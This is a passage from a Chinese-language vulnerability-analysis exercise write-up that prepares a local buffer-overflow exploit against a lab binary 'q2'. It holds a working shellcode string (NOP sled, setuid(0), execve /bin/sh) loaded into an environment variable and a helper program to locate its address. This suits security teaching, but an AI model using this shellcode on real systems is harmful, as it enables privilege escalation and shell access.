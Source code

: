 ```c
```

#### 准备工作

1. 导入shellcode，装入为名为EGG的环境变量中。

```bash
export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

2. 查找出EGG的位置，显示地址程序test.c如下，getenv函数可获取某环境变量的地址

    ```c
    #include <stdio.h>
    #include <stdlib.h>
    int main()
    {
    	printf("EGG address: %p\n",getenv("EGG"));
    	return 0;
    }
    ```

    此处需要编译出的文件名与 q2长度相同，这样才能得到正确的地址
    
    ```bash
    gcc test.c -o a2
    a2
    ```

![image-20220301220310179](漏洞分析练习题/image-20220301220310179.png)

至此将shellcode导入并获得了地址。`0xbffff268`

#### 位置查找

1. 首先找到secret的地址：

```c
gdb q2
disass main
```

![image-20220301095259398](漏洞分析练习题/image-20220301095259398.png)
